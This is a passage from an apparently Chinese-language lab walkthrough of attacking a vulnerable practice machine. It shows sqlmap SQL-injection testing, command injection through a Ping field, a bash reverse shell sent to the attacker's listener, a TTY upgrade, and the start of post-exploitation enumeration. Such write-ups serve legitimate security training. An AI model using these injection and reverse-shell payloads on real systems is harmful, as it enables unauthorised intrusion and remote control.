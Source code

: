 成功登录。

其实这里还有一种小技巧，你可以直接使用 sqlmap 来尝试进行注入，记得一定要将 **risk 设置为** 3：

```bash
sqlmap -u "http://192.168.31.130/index.php" --data="uname=test&psw=pass" --risk=3
```

![Untitled 4.png](https://i.loli.net/2020/08/07/MNiWJwKsTf4P19U.png)

借助 sqlmap 确认存在 sql 注入之后，我们再回头使用万能密码或者暴库都可以。

登录之后可以看到网页提供了一个 Ping 检测的功能，根据经验可以判断大概率存在「命令注入」漏洞：

![Untitled 5.png](https://i.loli.net/2020/08/07/aQRKDh1xpsjoyLe.png)

输入`127.0.0.1;pwd`,可以看到成功执行了命令 `pwd：`

![Untitled 6.png](https://i.loli.net/2020/08/07/cTzOSebumyZQG4k.png)

接下来就简单了，在本地监听 5000 端口：

```bash
nc -lnvp 5000
```

浏览器输入并提交：

```bash
127.0.0.1;bash -i >& /dev/tcp/192.168.31.91/5000 0>&1
```

成功反弹回 shell：

![Untitled 7.png](https://i.loli.net/2020/08/07/6t9hAVRcHQlGvjE.png)

# 0x4 后渗透

获得数据库账号密码之后，首先尝试会不会存在密码复用呢？所以使用 `su john` 尝试切换为 john 用户：

![Untitled 8.png](https://i.loli.net/2020/08/07/uxzPqa6sM5TOlVR.png)

但是提示需要 tty shell 才支持 su 命令，所以我们使用如下命令获取一个 tty shell：

```bash
python -c "import pty;pty.spawn('/bin/bash')"
```

> 更多关于升级 tty 的原理和方法参见：[https://www.shiyanlou.com/courses/2650](https://www.shiyanlou.com/courses/2650)

但是很不幸密码不正确。

接下来使用 `[linEnum.sh](http://linenum.sh)`进行信息收集，我们需要将 linEnum.sh 上传到目标靶机上，上传方法参考：[https://github.com/Jewel591/OSCP-Pentest-Methodologies/tree/master/PostExploit/File-Upload-Download](https://github.com/Jewel591/OSCP-Pentest-Methodologies/tree/master/PostExploit/File-Upload-Download)

收集到的信息如下：
